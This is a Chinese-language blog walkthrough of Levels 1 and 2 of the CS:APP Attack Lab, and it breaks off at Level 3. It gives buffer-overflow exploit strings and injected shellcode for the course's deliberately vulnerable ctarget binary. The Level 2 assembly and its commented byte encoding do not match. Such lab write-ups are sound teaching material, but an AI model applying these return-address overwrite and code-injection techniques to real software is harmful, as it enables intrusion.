 

[图文并茂-超详解 CS:APP: Lab3-Attack（附带栈帧分析) - 周小伦 - 博客园 (cnblogs.com)](https://www.cnblogs.com/JayL-zxl/p/14361158.html)(主要)

[【读厚 CSAPP】III Attack Lab | 小土刀 2.0 (wdxtub.com)](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)

## Level 1

### 题目

![image-20210528191423138](assert/image-20210528191423138.png)

![image-20210528191516287](assert/image-20210528191516287.png)

![image-20210528191823155](assert/image-20210528191823155.png)



这一关中我们暂时还不需要注入新的代码，只需要让程序重定向调用某个方法就好。`ctarget` 的正常流程是

```c
void test() {
    int val;
    val = getbuf();
    printf("NO explit. Getbuf returned 0x%x\n", val);
}
```

我们要做的是调用程序中的另一个函数

```c
void touch1() {
    vlevel = 1;
    printf("Touch!: You called touch1()\n");
    validate(1);
    exit(0);
}
```



也就是在 `getbuf()` 函数返回的时候，执行 `touch1()` 而不是返回 `test()`。下面是一些建议：

- 本关所需要的所有信息都可以在 `ctarget` 的汇编代码中找到
- 具体要做的是把 `touch1` 的开始地址放到 `ret` 指令的返回地址中
- 注意字节的顺序
- 可以用 gdb 在 `getbuf` 的最后几条指令设置断点，来看程序有没有完成所需的功能
- 具体 `buf` 在栈帧中的位置是由 `BUFFER_SIZE` 决定的，需要仔细察看来进行判断





### 解题

首先是反编译成汇编代码：`objdump -d ctarget > ctarget.txt`



`test`函数如下：

<img src="assert/image-20210528192729684.png" alt="image-20210528192729684" style="zoom:50%;" />

其实test并不重要，我们需要看的是getbuf.



`getbuf`函数如下：

<img src="assert/image-20210528192911495.png" alt="image-20210528192911495" style="zoom: 50%;" />



可以看到这里把 `%rsp` 减少了 `0x28`(40) 位，最后再加上一个`0x28`，也就是说，我们的缓冲区有 `40` 个字节，这个缓冲区上面的就是返回地址，我们要做的就是利用缓冲区溢出把这个返回地址改掉。





ok，其实我们只需要在第41~48字节的这个返回地址中插入touch1函数的地址即可，于是我们继续搜素，来看看 `touch1` 在哪里：

![image-20210528193608581](assert/image-20210528193608581.png)



可以看到地址在 `0x4017c0` 这里，于是我们需要输入的字符串就可以是这样：

`p1.txt`

```assembly
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

接着我们把这个字符文件转换成字节码 `./hex2raw < p1.txt > p1r.txt`

最后执行一下 `./ctarget -q < p1r.txt`，就可以看到结果了：

![image-20210528202740682](assert/image-20210528202740682.png)



从第一关我们就学到了如何利用缓冲区来调用另外的过程，接下来我们来看第二关。



## Level 2

### 题目



![image-20210528200144409](assert/image-20210528200144409.png)

![image-20210528200152331](assert/image-20210528200152331.png)

![image-20210528200202823](assert/image-20210528200202823.png)



第二关中需要插入一小段代码，来完成字符串漏洞攻击

本题的任务就是要我们在`getbuf`之后直接`ret`到`touch2`里面而不是继续执行`test`.（注意，此题的`test`和第一题的test是不一样的，这个test的地址我们需要用gdb去弄出来）

`cmu`的官方文档又给了我们一些建议

- `touch2`的参数`val`是利用`rdi`寄存器进行传递的
- 你要利用某种方式让`getbuf`的返回地址为`touch2`的地址
- 你的注入代码的传入参数应该等于`cookie`的值。
- 不要在注入代码内调用`ret`或者`call`
- 请参见附录B中有关如何使用工具生成字节级表示形式的指令序列的讨论。

`ctarget` 中的 `touch2` 函数的 C 语言如下：

```c
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

我们再来看看`touch2`的反汇编吧：

![image-20210528200757819](assert/image-20210528200757819.png)

其实touch2的逻辑非常简单。就是比较我们传入的参数`val`是否等于`cookie`的值。如果等于就可以通过。所以本题的关键就是在改变返回地址前也设置`rdi`寄存器的值。

因此我们可以很容易的想到我们要插入的汇编代码是什么

```assembly
movq    $0x59b997fa, %rdi	#cookie的值是题目所给(在第一题的结果中)
pushq   0x4017ec	# touch2的首地址入栈,那么ret就去touch2去执行
ret
```

我们把上面的汇编代码写进`l2.s`

执行`gcc -c l2.s`，产生`l2.o`

<img src="assert/image-20210528203126134.png" alt="image-20210528203126134" style="zoom:45%;" />



我们继续看一下`getbuf`的汇编代码：

<img src="assert/image-20210528192911495.png" alt="image-20210528192911495" style="zoom: 50%;" />



那么现在问题来了，我们要如何才能让机器开始执行这几行代码呢？简单，利用第一阶段的方式，跳转到缓冲区所在的位置即可，那么问题又来了，缓冲区的位置在哪里呢？这个就需要实际跑一次程序，用 gdb 查看了。

`gdb ctarget:`

<img src="assert/image-20210528203908411.png" alt="image-20210528203908411" style="zoom:50%;" />

我们发现`rsp`的地址为`0x5561dc78` 是不是有点想法可以开始写了。

我们可以让执行完`getbuf`之后回到`rsp`的这里。然后把我们要执行的三行汇编代码执行。就可以成功执行`touch2`了。这样我们的输入流就如下图。

```c
48 c7 c7 fa 97 b9 59 68 <-读入我们要执行的汇编语句:48 c7 c7 fa 97 b9 59 ff 34 25 ec 17 40 00 c3
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 <-返回地址为rsp:0x5561dc78
```

上面的这些数字写入`touch2.txt`

执行：`./hex2raw < touch2.txt | ./ctarget -q`

<img src="assert/image-20210528210312886.png" alt="image-20210528210312886" style="zoom:45%;" />



我们最后再分析一下，如下图

<img src="assert/image-20210528213630477.png" alt="image-20210528213630477" style="zoom: 40%;" />

> 我们getbuf之后，执行ret指令时，由于rsp指向地址的为这40字节的底部，这里存着我们注入的代码，这段代码去调用我们的touch2，就成功啦！！



## Level 3

```c
T
```

